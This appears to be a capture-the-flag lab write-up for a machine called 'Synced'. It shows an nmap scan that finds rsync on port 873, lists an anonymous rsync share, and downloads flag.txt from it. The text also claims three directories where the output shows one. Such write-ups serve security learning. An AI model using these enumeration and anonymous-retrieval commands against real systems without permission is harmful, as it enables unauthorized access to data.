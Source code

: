 # Synced

# TL;DR

- Exposes a directory over `rsync` with anonymous login. We are able to remotely access this directory using the command line tool `rsync` and retrieve the flag.

# Enumeration

- `ping 10.129.228.37` : to test if the server us up and running.
- We scan the host to determine running services:
```
nmap -p- --min-rate=1000 -sV 10.129.228.37
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-01 20:21 PST
Nmap scan report for 10.129.228.37
Host is up (0.085s latency).
Not shown: 65534 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.38 seconds
```
- From the scan we find the following service(s) running:
    - `rsync` on port`873/tcp`

# Foothold

 - Since we do not have a know user on the target host we can start by listing the directories on the target host with the following command (no username specified in the command will result in the utility trying to connect as an anonymous user):
```
rsync --list-only 10.129.228.37::            
public          Anonymous Share
```
- From the output above we can see 3 directories, we can list the files in the first directory:
```
rsync --list-only 10.129.228.37::public
drwxr-xr-x          4,096 2022/10/24 15:02:23 .
-rw-r--r--             33 2022/10/24 14:32:03 flag.txt
```
- We notice the `flag.txt` in the public share. We can copy this file to our local machine and view it there:
```
rsync 10.129.228.37::public/flag.txt destflag.txt
```